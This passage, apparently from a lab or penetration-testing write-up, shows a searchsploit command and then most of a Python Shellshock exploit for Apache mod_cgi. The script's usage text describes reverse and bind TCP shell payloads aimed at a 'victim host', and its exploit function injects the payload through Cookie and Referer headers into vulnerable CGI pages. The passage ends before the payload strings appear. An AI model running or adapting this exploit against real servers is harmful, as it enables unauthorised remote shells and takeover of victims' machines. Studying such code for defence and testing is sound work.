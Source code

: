 ```
searchsploit -m 34900.py
```

The content of the script:
```bash
#!/usr/bin/env python
from socket import *
from threading import Thread
import thread, time, httplib, urllib, sys

stop = False
proxyhost = ""
proxyport = 0

def usage():
        print """

                Shellshock apache mod_cgi remote exploit

Usage:
./exploit.py var=<value>

Vars:
rhost: victim host
rport: victim port for TCP shell binding
lhost: attacker host for TCP shell reversing
lport: attacker port for TCP shell reversing
pages:  specific cgi vulnerable pages (separated by comma)
proxy: host:port proxy

Payloads:
"reverse" (unix unversal) TCP reverse shell (Requires: rhost, lhost, lport)
"bind" (uses non-bsd netcat) TCP bind shell (Requires: rhost, rport)

Example:

./exploit.py payload=reverse rhost=1.2.3.4 lhost=5.6.7.8 lport=1234
./exploit.py payload=bind rhost=1.2.3.4 rport=1234

Credits:

Federico Galatolo 2014
"""
        sys.exit(0)

def exploit(lhost,lport,rhost,rport,payload,pages):
        headers = {"Cookie": payload, "Referer": payload}

        for page in pages:
                if stop:
                        return
                print "[-] Trying exploit on : "+page
                if proxyhost != "":
                        c = httplib.HTTPConnection(proxyhost,proxyport)
                        c.request("GET","http://"+rhost+page,headers=headers)
                        res = c.getresponse()
                else:
                        c = httplib.HTTPConnection(rhost)
                        c.request("GET",page,headers=headers)
                        res = c.getresponse()
                if res.status == 404:
                        print "[*] 404 on : "+page
                time.sleep(1)

```